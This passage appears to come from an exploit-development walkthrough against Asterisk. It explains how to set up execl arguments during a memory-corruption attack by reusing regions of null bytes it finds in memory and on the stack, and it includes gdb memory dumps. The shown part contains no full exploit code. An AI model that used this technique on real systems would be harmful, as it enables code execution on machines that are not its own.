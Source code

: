 execl is defined as follows:

man 3 execl:
```
int execl(const char *path, const char *arg, ..., /* (char  *) NULL */);

The initial argument for these functions is the name of a file that is  to  be  exe‐
cuted.

The  const  char *arg and subsequent ellipses in the execl(), execlp(), and execle()
functions can be thought of as arg0, arg1, ..., argn.  Together they describe a list
of  one or more pointers to null-terminated strings that represent the argument list
available to the executed program.  The first argument, by convention, should  point
to the filename associated with the file being executed.  The list of arguments must
be terminated by a null pointer, and,  since  these  are  variadic  functions,  this
pointer must be cast (char *) NULL.
```

Note the restrictions:
1) each argument needs to be null terminated
2) last argument needs to be null

This sounds a bit hard to implement, as we cannot write any null bytes (or, not easily).
How can we fulfill number 1? Actually, I already found a nice memory space full of null bytes! EDX was pointing to it:
```
(gdb) x/64x $edx
0x815e320 <option_debug>:	0x00000000	0x00000000	0x00000000	0x00000000
0x815e330:	0x00000000	0x00000000	0x00000000	0x00000000
0x815e340 <ast_config_AST_DATA_DIR>:	0x7261762f	0x62696c2f	0x7473612f	0x73697265
0x815e350 <ast_config_AST_DATA_DIR+16>:	0x0000006b	0x00000000	0x00000000	0x00000000
0x815e360 <ast_config_AST_DATA_DIR+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x815e370 <ast_config_AST_DATA_DIR+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x815e380 <ast_config_AST_DATA_DIR+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x815e390 <ast_config_AST_DATA_DIR+80>:	0x00000000	0x00000000	0x00000000	0x00000000
0x815e3a0 <ast_config_AST_DATA_DIR+96>:	0x00000000	0x00000000	0x00000000	0x00000000
0x815e3b0 <ast_config_AST_DATA_DIR+112>:	0x00000000	0x00000000	0x00000000	0x00000000
0x815e3c0 <ast_config_AST_DATA_DIR+128>:	0x00000000	0x00000000	0x00000000	0x00000000
0x815e3d0 <ast_config_AST_DATA_DIR+144>:	0x00000000	0x00000000	0x00000000	0x00000000
```

So i'll use this memory address space, write the arguments for `execl` into it, and re-use the
existing null bytes.


And how can we fulfill number 2? Actually, we are pretty lucky, as after our payload
are only null bytes (after a certain length).
```
(gdb) x/32x $esp-8
0xb725abb8:	0x41414141	0x11223344	0x00000000	0xb725e163
0xb725abc8:	0x00000001	0xb725df30	0x00000000	0x00000000
0xb725abd8:	0x00000000	0x00000000	0x00000000	0x00000000
0xb725abe8:	0x00000000	0x00000000	0x00000000	0x00000000
0xb725abf8:	0x00000000	0x00000000	0x00000000	0x00000000
0xb725ac08:	0x00000000	0x0000000a	0x00000000	0x0000000a
0xb725ac18:	0x00000000	0x00000000	0x00000000	0x00000000
0xb725ac28:	0x00000000	0x00000000	0x00000000	0x00000000
```
